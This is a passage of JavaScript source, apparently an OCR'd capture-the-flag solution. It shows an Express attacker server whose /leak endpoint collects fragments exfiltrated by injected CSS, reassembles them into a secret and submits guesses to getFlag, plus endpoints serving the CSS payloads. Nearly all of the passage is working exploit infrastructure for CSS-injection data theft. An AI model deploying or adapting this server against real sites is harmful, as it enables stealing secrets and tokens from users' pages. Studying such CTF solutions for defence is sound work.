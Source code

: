 ``` js

    if (suffix === prefix) {
      found.push([filterFirst(arr, arr[i]), arr[i][0] + ending])
    }
  }

  return found.map((item) => {
    return mergeWords(item[0], item[1])
  })
}

function handleLeak() {
  let str = ''
  let arr = [...leaks]
  leaks = []

  console.log('received:', JSON.stringify(arr))
  const merged = mergeWords(arr, null);
  console.log('leaked:', merged.flat(9999))
  return merged.flat(9999)
}

app.get('/leak', async (req, res) => {
  leaks.push(req.query.q)
  
  console.log('recevied:', req.query.q, leaks.length)
  //console.log(leaks)
  if (leaks.length === 105) {
    const result = handleLeak()
    
    let s = Array.from(new Set(result))
    s = s.filter(item => {
      if (item.indexOf('000') !== 40) {
        return false
      }
      return true
    })
    console.log('secret:', s)
    let i = 0
    for(let f of s) {
      console.log('try:', f, ++i)
      await getFlag(f.replace('000', '00000000'))
    }
    
  }
  res.send('ok')
})

app.get('/payload1', (req, res) => {
  console.log('payload1')
  res.setHeader('Content-Type', 'text/css')
  res.send(payload1)
})

app.get('/payload2', (req, res) => {
  console.log('payload2')
  res.setHeader('Content-Type', 'text/css')
  res.send(payload2)
})

app.get('/payload3', (req, res) => {
  console.log('payload3')
  res.setHeader('Content-Type', 'text/css')
```